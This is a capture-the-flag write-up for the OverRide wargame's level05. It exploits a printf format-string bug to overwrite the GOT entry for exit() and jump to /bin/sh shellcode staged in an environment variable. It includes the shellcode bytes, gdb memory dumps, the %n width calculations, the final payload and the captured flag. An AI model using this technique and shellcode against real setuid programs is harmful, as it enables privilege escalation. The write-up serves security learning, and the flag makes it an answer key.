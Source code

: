 # Write up

No buffer overflow here (protected fgets).
We notice a printf using directly the entered value as format, however there isn't any secondary function, so we will mix a GOT exploit (Look Rainfall level5, no RELRO here) with a shellcode.
We notice while traducing the code an exit() call after the printf, we will so alter its GOT value contents.

Sample payload :
```
level05@OverRide:~$ (python -c "print 'AAAA' + '.%x' * 15") | ./level05
aaaa.64.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.0.ffffffff.ffffd764.f7fdb000.61616161.2e78252e.252e7825.78252e78.2e78252e.252e7825
```
Sensitive value is the 10th one.

GOT address for exit :
```
objdump -R level05 | less
...
080497e0 R_386_JUMP_SLOT   exit
...
```

Shellcode /bin/sh (using nopsplead):
```
export LIDLCODE=$(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
(gdb) x/1000x environ
...
0xffffdf1c:     0x3d4e4550      0x752f207c      0x622f7273      0x6c2f6e69
0xffffdf2c:     0x70737365      0x20657069      0x4c007325      0x434c4449
0xffffdf3c:     0x3d45444f      0x90909090      0x90909090      0x90909090
0xffffdf4c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdf5c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdf6c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdf7c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdf8c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdf9c:     0x90909090      0x90909090      0x99580b6a      0x2f2f6852
0xffffdfac:     0x2f686873      0x896e6962      0xcdc931e3      0x454c0080
0xffffdfbc:     0x4c435353      0x3d45534f      0x7273752f      0x6e69622f
...
# We choose 0xffffdf4c here
# 0xffff = 65535
# 0xdf4c = 57164
#57164 - 9 : 57155
#65535 - 57155 - 9 : 8371
```

(I had to ajust the payload by sending it to a file and testing it with gdb)
```
b *0x0804850c
run < /tmp/test10
x/8x 0x080497e0
```

The value is too big to use the min-width here, but thanks to someone I evaluated I use the 2-byte trick. (Using %hn is also possible) 

Payload.exe :
```
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57155x " + "%10$n" + "%8371x" + "%11$n"'; cat) | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
